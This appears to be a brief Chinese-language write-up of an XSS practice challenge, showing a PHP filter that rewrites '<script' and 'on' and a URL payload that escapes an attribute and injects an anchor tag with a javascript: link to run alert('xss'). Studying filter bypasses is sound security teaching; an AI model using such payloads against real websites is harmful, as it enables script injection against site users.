

# 知识点：

```php
//绕过该代码
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```
使用<a>标签
# 思路：
?keyword="> <a href=javascript:alert('xss') > xss</a> //<br />
